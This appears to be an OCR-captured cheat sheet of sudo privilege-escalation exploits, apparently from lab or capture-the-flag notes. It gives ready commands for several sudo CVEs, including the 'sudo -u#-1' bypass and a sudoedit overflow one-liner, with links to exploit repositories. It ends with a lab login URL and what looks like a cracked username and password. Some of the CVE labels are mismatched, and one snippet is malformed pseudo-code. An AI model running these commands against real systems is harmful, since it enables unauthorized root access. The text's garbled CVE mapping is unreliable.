 ```
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo version 1.8.21p2
CVE-2021-3156
https://github.com/CptGibbon/CVE-2021-3156.git

Usage:
$ make
$ ./exploit

++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo (versions < 1.8.28)
CVE-2019-14287


$ sudo -u#-1 <command>
++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1
 CVE-2019-18634 


sudoedit -s '\' $(python3 -c 'print("A"*1000)')

++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo Buffer Overflow
sudo earlier than 1.8.26
CVE-2019-18634


{
if [cat/etc/sudoers]
  env.reset,pwfeedback
}
https://github.com/saleemrashid/sudo-cve-2019-18634
```


http://10.10.68.181/support/login

|     |          |          |     |     |       |       |     |     |
| --- | -------- | -------- | --- | --- | ----- | ----- | --- | --- |
| 50  | m.rivera | letmein1 | 302 | 485 | false | false | 597 |     |